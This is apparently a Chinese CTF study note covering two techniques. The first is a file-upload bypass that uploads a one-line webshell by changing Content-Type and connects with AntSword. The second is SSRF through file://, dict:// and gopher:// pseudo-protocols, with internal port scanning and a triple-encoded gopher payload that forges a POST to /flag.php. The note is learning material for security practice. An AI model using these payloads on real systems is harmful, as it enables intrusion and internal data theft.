 ```bash
1.先对于服务器上传不同的文件，直至上传成功，然后利用BS进行抓包。查看报文的最后一段有Content-type字段部分
2.上传木马，修改Content-type
3.使用antSword进行连接
```

蚁剑，一句话木马，bp重发请求文件上传，配置文件绕过限制
数据库漏洞

## SSRF

### 伪协议

>已单独开了一篇文章 指路 [here](https://)

```bash
file:///
#file:///var/www/html/flag.php
dict://
#探测内网端口协议
sftp://
ldap://
tftp://
gopher://(万金油)
```

### 端口扫描

bp 攻击
`url=dict://127.0.0.1:8000`
`$8000$负载number8000-9000 step:1`

扫描找到数据字节不同的端口重发
`http://127.0.0.1:xxxx`

### POST请求

#### gopher协议

最终gopher协议伪造的http请求
`POST%252520%25252Fflag.php%252520HTTP%25252F1.1%25250D%25250Ahost%25253A%252520127.0.0.1%25253A80%25250D%25250AContent-Type%25253A%252520application%25252Fx-www-form-urlencoded%25250D%25250AContent-Length%25253A%25252036%25250D%25250A%25250D%25250Akey%25253D5b69b89c146e1ed3b90708ffa267f06a`
三次URL解码得到的玩意:

```bash
POST /flag.php HTTP/1.1
host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
key=5b69b89c146e1ed3b90708ffa267f06a
```

(但是我真的没看懂，日后再说)
大佬牛b！！！
